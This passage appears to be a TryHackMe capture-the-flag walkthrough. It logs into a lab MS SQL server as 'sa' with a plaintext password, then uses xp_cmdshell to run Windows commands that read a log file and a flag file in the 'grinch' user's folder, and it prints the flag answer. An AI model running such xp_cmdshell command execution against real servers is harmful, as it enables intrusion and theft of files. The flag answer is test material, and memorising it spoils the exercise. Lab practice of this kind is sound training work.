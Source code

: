 **We can run other commands that we can execute on the MS Windows command line. For example, we can use dir to list files and directories and type filename to display the contents of a file. Consider the example in the terminal window below where we reveal the contents of the text file WindowsUpdate.log.**

```

pentester@TryHackMe$ sqsh -S 10.10.54.175 -U sa -P "t7uLKzddQzVjVFJp"
sqsh-2.5.16.1 Copyright (C) 1995-2001 Scott C. Gray
Portions Copyright (C) 2004-2014 Michael Peppler and Martin Wesdorp
This is free software with ABSOLUTELY NO WARRANTY
For more information type '\warranty'
1> xp_cmdshell 'type c:\windows\WindowsUpdate.log';
2> go

	output

[...]

        Windows Update logs are now generated using ETW (Event Tracing for Windows).
	Please run the Get-WindowsUpdateLog PowerShell command to convert ETW traces into a readable WindowsUpdate.log.

	NULL

	NULL

	For more information, please visit https://go.microsoft.com/fwlink/?LinkId=518345
(5 rows affected, return status = 0)
1>

```

**There is a flag hidden in the grinch user's home directory. What are its contents?**

- **_THM{YjtKeUy2qT3v5dDH}_**

```
1> xp_cmdshell 'type C:\Users\grinch\Documents\flag.txt'
2> go

	output




	----------------------------------------------------------------------------------------------------------------------------------------------
------------------------------------------------------------------------------------------------------------------------------------------------------
------------------------------------------------------------------------------------------------------------------------------------------------------
----------------------------------------------------------------------

	THM{YjtKeUy2qT3v5dDH}




(1 row affected, return status = 0)
1>

```
